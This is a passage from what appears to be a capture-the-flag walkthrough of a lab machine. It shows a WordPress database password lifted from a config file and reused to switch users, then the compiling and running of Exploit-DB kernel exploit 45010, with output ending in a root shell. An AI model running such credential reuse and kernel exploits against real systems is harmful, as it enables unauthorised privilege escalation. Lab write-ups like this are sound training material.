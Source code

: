 ```bash

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
<SNIP>
```

Since this password alludes to the only other user on the machine, loly, I'll see if I can switch users to her. It works:

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/var/www/html/wordpress$ whoami                               whoami
loly
```

I ran linpeas and saw that the system is old and likely vulnerable to a kernel exploit. I'll try the first one suggested, which references [this](https://www.exploit-db.com/exploits/45010) website.

At some point, the shell died. Since I identified a possible kernel exploit, I tried to compile the exploit as www-data. However, it didn't work:

```bash
www-data@ubuntu:/tmp$ gcc 45010.c -o 45010
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

However, as loly, it does compile:

```bash
www-data@ubuntu:/tmp$ su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/tmp$ gcc 45010.c -o 450gcc 45010.c -o 45010
```

I run it and become root:

```bash
loly@ubuntu:/tmp$ ./45010           ./45010
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007c80fe00
[*] Leaking sock struct from ffff8800349703c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880035cc4780
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880035cc4780
[*] credentials patched, launching shell...
# cd /root
# ls
proof.txt  root.txt
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
```